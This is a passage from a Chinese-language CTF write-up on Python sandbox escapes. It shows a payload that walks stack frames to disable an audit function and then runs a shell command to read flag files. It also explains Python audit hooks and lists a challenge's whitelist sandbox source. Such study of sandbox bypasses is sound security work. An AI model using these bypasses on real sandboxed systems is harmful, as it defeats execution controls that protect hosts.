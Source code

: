 主动抛出异常, 并获取其后要执行的代码, 然后将`__exit` 进行替换, 思路也是十分巧妙.

```py
try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```
但是实际测试时使用 python 3.11 发现 `nxt_frame = tb.tb_frame` 会触发 `object.__getattr__` hook. 不同的版本中触发 hook 的地方会有差异,这个 payload 可能仅在 python 3.9 (题目版本)中适用

## 绕过 audit hook
Python 的审计事件包括一系列可能影响到 Python 程序运行安全性的重要操作。这些事件的种类及名称不同版本的 Python 解释器有所不同，且可能会随着 Python 解释器的更新而变动。

Python 中的审计事件包括但不限于以下几类：

- `import`：发生在导入模块时。
- `open`：发生在打开文件时。
- `write`：发生在写入文件时。
- `exec`：发生在执行Python代码时。
- `compile`：发生在编译Python代码时。
- `socket`：发生在创建或使用网络套接字时。
- `os.system`，`os.popen`等：发生在执行操作系统命令时。
- `subprocess.Popen`，`subprocess.run`等：发生在启动子进程时。

[PEP 578 – Python Runtime Audit Hooks](https://peps.python.org/pep-0578/)


calc_jail_beginner_level6 这道题中使用了 audithook 构建沙箱,采用白名单来进行限制.audit hook 属于 python 底层的实现,因此常规的变换根本无法绕过.

题目源码如下:
```py
import sys

def my_audit_hook(my_event, _):
    WHITED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
    if my_event not in WHITED_EVENTS:
        raise RuntimeError('Operation not permitted: {}'.format(my_event))

def my_input():
    dict_global = dict()
    while True:
      try:
          input_data = input("> ")
      except EOFError:
          print()
          break
      except KeyboardInterrupt:
          print('bye~~')
          continue
      if input_data == '':
          continue
```